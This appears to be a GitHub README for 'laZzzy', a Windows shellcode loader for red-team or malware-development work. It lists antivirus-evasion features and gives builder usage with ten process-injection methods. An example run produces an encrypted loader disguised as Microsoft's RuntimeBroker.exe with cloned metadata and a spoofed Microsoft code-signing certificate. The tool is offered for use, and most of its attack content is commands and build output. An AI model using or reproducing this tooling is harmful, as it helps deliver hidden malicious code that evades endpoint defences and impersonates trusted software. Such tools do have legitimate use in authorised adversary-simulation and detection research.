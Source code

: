 ## laZzzy
![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![C++](https://img.shields.io/badge/c++-%2300599C.svg?style=for-the-badge&logo=c%2B%2B&logoColor=white)
![Visual Studio](https://img.shields.io/badge/Visual%20Studio-5C2D91.svg?style=for-the-badge&logo=visual-studio&logoColor=white)
![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)

laZzzy is a shellcode loader that demonstrates different execution techniques commonly employed by malware. laZzzy was developed using different open-source header-only libraries.


### Features
- Direct syscalls and native (`Nt*`) functions (not all functions but most)
- Import Address Table (IAT) evasion
- Encrypted payload (XOR and AES)
  - Randomly generated key
  - Automatic padding (if necessary) of payload with NOPS (`\x90`)
  - Byte-by-byte in-memory decryption of payload
- XOR-encrypted strings
- PPID spoofing
- Blocking of non-Microsoft-signed DLLs
- (Optional) Cloning of PE icon and attributes
- (Optional) Code signing with spoofed cert

### How to Use

#### Requirements:
- Windows machine w/ Visual Studio and the following components, which can be installed from _`Visual Studio Installer` > `Individual Components`_:
  - `C++ Clang Compiler for Windows` and `C++ Clang-cl for build tools` 

    ![Clang](img/clang.png)
  
  - `ClickOnce Publishing`
  
    ![ClickOne](img/clickonce.png)

- Python3 and the required modules:
  -  `python3 -m pip install -r requirements.txt`


#### Options:
```powershell
(venv) PS C:\MalDev\laZzzy> python3 .\builder.py -h

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣤⣤⣤⣤⠀⢀⣼⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠀⠀⢀⣀⣀⡀⠀⠀⠀⢀⣀⣀⣀⣀⣀⡀⠀⢀⣼⡿⠁⠀⠛⠛⠒⠒⢀⣀⡀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⣰⣾⠟⠋⠙⢻⣿⠀⠀⠛⠛⢛⣿⣿⠏⠀⣠⣿⣯⣤⣤⠄⠀⠀⠀⠀⠈⢿⣷⡀⠀⣰⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⣿⣯⠀⠀⠀⢸⣿⠀⠀⠀⣠⣿⡟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⣰⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠙⠿⣷⣦⣴⢿⣿⠄⢀⣾⣿⣿⣶⣶⣶⠆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⡿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⡿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀by: CaptMeelo⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠁⠀⠀⠀

usage: builder.py [-h] -s  -p  -m  [-tp] [-sp] [-pp] [-b] [-d]

options:
  -h, --help  show this help message and exit
  -s          path to raw shellcode
  -p          password
  -m          shellcode execution method (e.g. 1)
  -tp         process to inject (e.g. svchost.exe)
  -sp         process to spawn (e.g. C:\\Windows\\System32\\RuntimeBroker.exe)
  -pp         parent process to spoof (e.g. explorer.exe)
  -b          binary to spoof metadata (e.g. C:\\Windows\\System32\\RuntimeBroker.exe)
  -d          domain to spoof (e.g. www.microsoft.com)

shellcode execution method:
   1          Early-bird APC Queue (requires sacrificial proces)
   2          Thread Hijacking (requires sacrificial proces)
   3          KernelCallbackTable (requires sacrificial process that has GUI)
   4          Section View Mapping
   5          Thread Suspension
   6          LineDDA Callback
   7          EnumSystemGeoID Callback
   8          FLS Callback
   9          SetTimer
   10         Clipboard
```

#### Example:
Execute `builder.py` and supply the necessary data.
```powershell
(venv) PS C:\MalDev\laZzzy> python3 .\builder.py -s .\calc.bin -p CaptMeelo -m 1 -pp explorer.exe -sp C:\\Windows\\System32\\notepad.exe -d www.microsoft.com -b C:\\Windows\\System32\\mmc.exe

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣤⣤⣤⣤⠀⢀⣼⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠀⠀⢀⣀⣀⡀⠀⠀⠀⢀⣀⣀⣀⣀⣀⡀⠀⢀⣼⡿⠁⠀⠛⠛⠒⠒⢀⣀⡀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⣰⣾⠟⠋⠙⢻⣿⠀⠀⠛⠛⢛⣿⣿⠏⠀⣠⣿⣯⣤⣤⠄⠀⠀⠀⠀⠈⢿⣷⡀⠀⣰⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⣿⣯⠀⠀⠀⢸⣿⠀⠀⠀⣠⣿⡟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⣰⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠙⠿⣷⣦⣴⢿⣿⠄⢀⣾⣿⣿⣶⣶⣶⠆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⡿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⡿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀by: CaptMeelo⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠁⠀⠀⠀

[+] XOR-encrypting payload with
        [*] Key:                        d3b666606468293dfa21ce2ff25e86f6

[+] AES-encrypting payload with
        [*] IV:                         f96312f17a1a9919c74b633c5f861fe5
        [*] Key:                        6c9656ed1bc50e1d5d4033479e742b4b8b2a9b2fc81fc081fc649e3fb4424fec

[+] Modifying template using
        [*] Technique:                  Early-bird APC Queue
        [*] Process to inject:          None
        [*] Process to spawn:           C:\\Windows\\System32\\RuntimeBroker.exe
        [*] Parent process to spoof:    svchost.exe

[+] Spoofing metadata
        [*] Binary:                     C:\\Windows\\System32\\RuntimeBroker.exe
        [*] CompanyName:                Microsoft Corporation
        [*] FileDescription:            Runtime Broker
        [*] FileVersion:                10.0.22621.608 (WinBuild.160101.0800)
        [*] InternalName:               RuntimeBroker.exe
        [*] LegalCopyright:             © Microsoft Corporation. All rights reserved.
        [*] OriginalFilename:           RuntimeBroker.exe
        [*] ProductName:                Microsoft® Windows® Operating System
        [*] ProductVersion:             10.0.22621.608

[+] Compiling project
        [*] Compiled executable:        C:\MalDev\laZzzy\loader\x64\Release\laZzzy.exe

[+] Signing binary with spoofed cert
        [*] Domain:                     www.microsoft.com
        [*] Version:                    2
        [*] Serial:                     33:00:59:f8:b6:da:86:89:70:6f:fa:1b:d9:00:00:00:59:f8:b6
        [*] Subject:                    /C=US/ST=WA/L=Redmond/O=Microsoft Corporation/CN=www.microsoft.com
        [*] Issuer:                     /C=US/O=Microsoft Corporation/CN=Microsoft Azure TLS Issuing CA 06
        [*] Not Before:                 October 04 2022
        [*] Not After:                  September 29 2023
        [*] PFX file:                   C:\MalDev\laZzzy\output\www.microsoft.com.pfx

[+] All done!
        [*] Output file:                C:\MalDev\laZzzy\output\RuntimeBroker.exe
```


### Libraries Used
- [kokke/tiny-AES-c](https://github.com/kokke/tiny-AES-c)
- [skadro-official/skCrypter](https://github.com/skadro-official/skCrypter)
- [JustasMasiulis/lazy_importer](https://github.com/JustasMasiulis/lazy_importer)
- [JustasMasiulis/inline_syscall](https://github.com/JustasMasiulis/inline_syscall)


### Shellcode Execution Techniques

1. Early-bird APC Queue _(requires sacrificial process)_
2. Thread Hijacking _(requires sacrificial process)_
3. KernelCallbackTable _(requires sacrificial process that has a GUI)_
4. Section View Mapping
5. Thread Suspension
6. LineDDA Callback
7. EnumSystemGeoID Callback
8. Fiber Local Storage (FLS) Callback
9. SetTimer
10. Clipboard


### Notes:
- Only works on **Windows x64**
- Debugging only works on **Release** mode
- Sometimes, **KernelCallbackTable** doesn't work on the first run but will eventually work afterward


### Credits/References
- Authors of the libraries used
- http://undocumented.ntinternals.net/
- https://doxygen.reactos.org/index.html
- https://github.com/processhacker/phnt
- https://www.vergiliusproject.com/
- https://www.ired.team/
- https://github.com/snovvcrash/DInjector
- https://github.com/aahmad097/AlternativeShellcodeExec
- https://github.com/paranoidninja/CarbonCopy